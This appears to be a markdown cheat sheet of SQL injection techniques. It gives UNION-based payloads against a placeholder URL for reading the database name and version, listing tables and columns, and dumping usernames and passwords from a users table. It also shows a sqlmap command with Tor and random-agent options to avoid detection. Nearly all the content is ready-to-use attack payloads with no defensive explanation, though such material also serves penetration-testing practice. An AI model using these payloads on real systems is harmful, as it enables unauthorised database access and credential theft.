 ### Getting database name and version

```sql
> http://blabla.com?id=-1' union all select 1,database(),version() --+
```

### Getting table name

```sql
# database name = security
> http://blabla.com?id=-1' union all select 1,table_name,3 from information_schema.tables where table_schema='security' --+
```

### Getting all tables names

```sql
# database name = security
> http://blabla.com?id=-1' union all select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+
```

### Getting  table columns

```sql
> http://blabla.com?id=-1' union all select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+
```

### Dumping all table data

```sql
> http://blabla.com?id=-1' union all select 1,group_concat(username),group_concat(password) from users --+
```

### No quote injection

It is the same as with quote injection but using \ instead of ' for error detection and not using any thing in injection itself

---

## Using SqlMap

```shell
> sqlmap -u URl -data DataToSentInPost -p PARAMETER(id) --level 3 risk 3 -random-agent --tor --check-tor --delay=500 --randomize=delay
```

---

## SQLMAP

